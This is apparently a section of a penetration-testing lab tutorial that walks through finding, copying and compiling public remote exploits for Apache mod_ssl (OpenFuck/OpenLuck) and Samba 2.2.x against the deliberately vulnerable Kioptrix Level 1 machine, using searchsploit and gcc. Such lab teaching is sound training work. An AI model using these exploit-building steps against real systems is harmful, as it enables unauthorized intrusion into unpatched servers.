

.. _Kioptrix Lv1 Exploitation:

Exploitation
============

.. index::
   single: Metasploit
   single: SearchSploit

+-------------+-------------------+
|**Reference**|:ref:`Metasploit`  |
|             |                   |
|             |:ref:`SearchSploit`|
+-------------+-------------------+

Now that we've discovered a couple vulnerabilities in our target, we should prioritize them according to which we think will be the most likely to succeed (and the easiest to pull off). With that in mind, let's examine our two candidates.

First up, we have the `OpenFuck` exploits for `Apache`. There are three different `EDB-ID` entries listed. We can examine them with `SearchSploit`'s ``-x`` flag, followed by their ID number. The second exploit appears to be an improvement on the first, and the third an improvement on the second, so we'll put the first two aside and focus on the last exploit, with ID 47080. Looking through the source code, this version appears to have options for our target's operating system and `Apache` versions:

.. code-block:: c

    [...]
    {"RedHat Linux 7.2 (apache-1.3.20-16)1",0x080994e5},
    {"RedHat Linux 7.2 (apache-1.3.20-16)2",0x080994d4},
    [...]

We'll create a copy of this exploit using `SearchSploit`'s ``-m`` flag:

.. code-block:: none

    kali@kali:~$ searchsploit -m 47080
      Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
          URL: https://www.exploit-db.com/exploits/47080
         Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/47080.c

Examining the `Samba` exploit, we can likewise see that the target OS is listed in the exploit's available targets:

.. code-block:: c

    [...]
    { "samba-2.2.x - Redhat 7.x           ", 0xbffff310, linux_bindcode, 0 },
    [...]

We'll copy this exploit as well:

.. code-block:: none

    kali@kali:~$ searchsploit -m 10
      Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
          URL: https://www.exploit-db.com/exploits/10
         Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/10.c

Next, we'll attempt to compile both exploits. To keep track of which is which, we'll rename them appropriately:

.. code-block:: none

    kali@kali:~$ mv 47080.c OpenFuck.c
    kali@kali:~$ mv 10.c samba_exploit.c

Next, we'll compile each according to the instructions outlined within each file.

Compiling the mod_ssl Exploit
------------------------------
The `mod_ssl` exploit provides the following command line for compilation, but `Kali` responds with an error:

.. code-block:: none

    kali@kali:~$ gcc -o OpenFuck OpenFuck.c -lcrypto
    OpenFuck.c:21:10: fatal error: openssl/ssl.h: No such file or directory
       21 | #include <openssl/ssl.h>
          |          ^~~~~~~~~~~~~~~
    compilation terminated.

It appears we're missing the ``openssl/ssl.h`` file, which is necessary for compilation. Using Google, we can see if anyone else has had any luck compiling this exploit by searching for "compile openfuck.c kali" (see Figure 5).

   Search results for "compile openfuck.c kali"

The first link directs us to a `Medium` article that has a series of steps for compiling the exploit. But the second link looks even more appealing: it's an updated version of the `OpenFuck` exploit created in 2018. This seems promising! Let's check it out.

Clicking the link takes us to a `GitHub repository <https://github.com/heltonWernik/OpenLuck>`_ containing the ``OpenFuck.c`` source code and a ``README.md`` file containing compilation instructions. First, we should download the ``OpenFuck.c`` file. To do this, click the ``OpenFuck.c`` link, then click the **Raw** button on the top right of the source-code listing. This will provide us with the plain-text version of the code, which we can copy-and-paste into an ``OpenLuck.c`` file on `Kali`.

After saving the updated ``OpenLuck.c`` source code, we'll return to the README page and follow the directions for compiling the software. First, it says to install the `libssl-dev` software using `apt-get`:

.. code-block:: none

    kali@kali:~$ sudo apt-get install libssl-dev
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    [...]
    Preparing to unpack .../libssl-dev_1.1.1d-2_amd64.deb ...
    Unpacking libssl-dev:amd64 (1.1.1d-2) ...
    Setting up libssl-dev:amd64 (1.1.1d-2) ...

.. note::

    If you're using a secondary `host-only` network to communicate between `Kali` and the target system, you might need to switch to the primary network interface in order to allow `Kali` to access the internet and install this software. Once you're done, you can switch back to the secondary network in order to continue targeting `Kioptrix`.

With the appropriate library installed, compile the `OpenLuck` binary. If everything goes correctly, you should see no output, and you'll find the `OpenLuck` executable in your current directory:

.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto
    kali@kali:~$ ls -lah OpenLuck
    -rwxr-xr-x 1 kali kali 43K Apr  7 13:41 OpenLuck

Great! The exploit has been compiled. On to the next...

Compiling the Samba Exploit
---------------------------
Reading the source code of the ``samba_exploit.c`` file, we can see no special compilation instructions, so let's just compile it with a straightforward `gcc` command. We'll use the ``-o`` flag, followed by a filename, in order to name the resulting executable:

.. code-block:: none

    kali@kali:~$ gcc samba_exploit.c -o samba_exploit
    kali@kali:~$ ls -lah samba_exploit
    -rwxr-xr-x 1 kali kali 41K Apr  7 13:46 samba_exploit

As before, if compilation is successful, we should see no output from the `gcc` command, and the ``samba_exploit`` executable should be in the same directory.

Finally! It's time to test our exploits.
